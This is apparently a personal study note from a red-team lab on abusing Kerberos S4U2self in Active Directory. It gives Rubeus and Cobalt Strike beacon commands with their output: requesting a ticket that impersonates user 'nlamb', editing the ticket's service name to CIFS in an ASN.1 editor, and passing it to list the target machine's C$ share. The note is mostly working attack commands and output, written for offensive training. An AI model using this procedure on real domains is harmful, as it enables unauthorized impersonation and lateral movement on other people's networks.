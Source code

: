 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[S4U2self Absue]]  
___

## Description:  

Start by getting a tgt through [[Printer Bug]]

S4U2self allows a service to obtain a TGS to itself on behalf of a user, and S4U2proxy allows the service to obtain a TGS on behalf of a user to a second service.

We can gain access to a domain computer if we have its RC4, AES256 or TGT.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /user:WKSTN-2$ /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /impersonateuser:nlamb /ticket:doIFLz[...snip...]MuSU8= /nowrap

[*] Action: S4U
[*] Building S4U2self request for: 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MtMiQ=

[*] Impersonating user 'nlamb' to target SPN 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION

```

The S4U2proxy step will fail, which is fine.  Write the S4U2self TGS to a file.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi", [System.Convert]::FromBase64String("doIFdD [...snip...] MtMiQ="))
```

Use `Rubeus describe` to show information about the ticket.

```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  WKSTN-2$
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=

```

The `ServiceName` of WKSTN-2$ is not valid for our use - we want it to be for CIFS.

To modify the ticket, open it with the ASN editor in `C:\Tools\Asn1Editor`.  Find the two instances where the **GENERAL STRING** "WKSTN-2$" appears.

Double-click them to open the **Node Content Editor** and replace these strings with "cifs".  We also need to add an additional string node with the FQDN of the machine.  Right-click on the parent **SEQUENCE** and select **New**.  Enter **1b** in the **Tag** field and click **OK**.  Double-click on the new node to edit the text.

Save the ticket and use `Rubeus describe` again.  Notice how the `ServiceName` has now changed.
```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  cifs/wkstn-2.dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

To use the ticket, simply pass it into your session.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     01/20/2022 16:46:38   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     05/06/2021 09:35:17   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     02/28/2022 09:30:57   pagefile.sys

```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:45 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
